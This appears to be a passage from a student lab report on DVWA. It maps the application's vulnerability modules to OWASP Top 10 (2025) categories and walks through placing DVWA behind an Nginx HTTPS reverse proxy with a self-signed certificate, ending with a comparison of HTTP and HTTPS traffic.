HTTPS does not prevent vulnerabilities such as SQL Injection or Cross-Site Scripting. HTTPS only encrypts the communication between the client and the server to protect data from interception. If the application contains insecure code or improper validation, these attacks can still occur.

---

### What risks exist if this application is deployed publicly?

If this application is deployed on the public internet with these vulnerabilities, attackers could access sensitive database information, execute malicious scripts in users’ browsers, upload harmful files to the server, execute system commands, or hijack user sessions. These attacks could lead to data breaches or complete compromise of the system.

---

### Mapping vulnerabilities to OWASP Top 10 (2025)

| Vulnerability | OWASP Category |
|---|---|
| SQL Injection | A05:2025 - Injection |
| Blind SQL Injection | A05:2025 - Injection |
| Command Injection | A05:2025 - Injection |
| Reflected XSS | A05:2025 - Injection |
| Stored XSS | A05:2025 - Injection |
| DOM Based XSS | A05:2025 - Injection |
| CSRF | A01:2025 - Broken Access Control |
| File Inclusion | A05:2025 - Injection |
| File Upload | A02:2025 - Security Misconfiguration |
| Weak Session IDs | A04:2025 - Cryptographic Failures |
| Brute Force | A07:2025 - Authentication Failures |
| JavaScript Attacks | A06:2025 - Insecure Design |
| CSP Bypass | A02:2025 - Security Misconfiguration |
| Insecure CAPTCHA | A07:2025 - Authentication Failures |

---

---

## Bonus: DVWA Behind Nginx Reverse Proxy with HTTPS

In this section, DVWA is deployed behind an Nginx reverse proxy and HTTPS is implemented using a self-signed certificate. This setup demonstrates how secure connections protect sensitive traffic from interception.

---

### Step 1: Install Nginx

Nginx was installed and verified to ensure reverse proxy functionality.



---

### Step 2: Generate Self-Signed Certificate

A self-signed certificate and private key were created to enable HTTPS access for DVWA.



---

### Step 3: Configure Nginx for Reverse Proxy and HTTPS

The Nginx configuration was updated to forward traffic to DVWA and enable HTTPS.



The configuration was tested using:

```
sudo nginx -t
```


---

### Step 4: Access DVWA Over HTTP and HTTPS

#### HTTP Access

DVWA was accessed over HTTP to demonstrate unencrypted traffic. Form submissions, including passwords, are visible in plain text.



#### HTTPS Access

DVWA was accessed over HTTPS using the self-signed certificate. Traffic is encrypted and secure, and a lock icon appears in the browser.



Verification with Curl



### Difference Between HTTP and HTTPS Traffic

| Feature                     | HTTP                                   | HTTPS                                           |
|-------------------------------|----------------------------------------|------------------------------------------------|
| **Data Encryption**           | None, sent in plain text               | Encrypted using TLS/SSL                        |
| **Security**                  | Vulnerable to interception and eavesdropping | Protects sensitive data from attackers        |
| **Browser Indicator**         | No lock icon                           | Lock icon displayed in address bar             |
| **Form Submission Visibility**| Data like passwords visible in requests| Data is encrypted and secure                   |
| **Authentication**            | Not verified                           | Server identity is verified via certificate   |
